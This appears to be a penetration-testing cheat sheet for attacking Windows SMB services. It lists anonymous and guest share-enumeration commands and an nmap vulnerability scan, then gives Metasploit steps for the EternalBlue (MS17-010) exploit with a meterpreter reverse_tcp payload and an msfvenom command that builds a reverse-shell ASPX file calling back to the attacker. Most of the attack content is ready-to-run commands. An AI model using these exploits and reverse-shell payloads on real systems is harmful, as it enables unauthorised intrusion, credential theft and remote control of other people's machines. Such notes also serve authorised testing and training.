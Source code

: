 `Always check guest login and then check public share with write and execute permission and you will find credential, files pdf ps1 etc`

## Basic SMB Enumeration

```bash
smbclient -L //<ip>               # List available shares (anonymous)
smbclient //ip/share              # Connect to share (anonymous)
smbclient //ip/share -u <user>    # Connect as specific user

smbmap -H <ip>                    # (public shares) (check read write and execute)

enum4linux -a <ip>                # best command to find details and users list

crackmapexec smb <ip> -u guest -p '' --shares  # List shares with null session
```

## Vulnerability Scanning
```bash
nmap -p 445 --script vuln -Pn -T4 -v <ip>   # Check for SMB vulns (e.g., MS17-010)
```


---

# EternalBlue (MS17-010)
### Exploit with Metasploit
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set LHOST <your_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### MSFVenom Payload 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f aspx -o shell.aspx
```
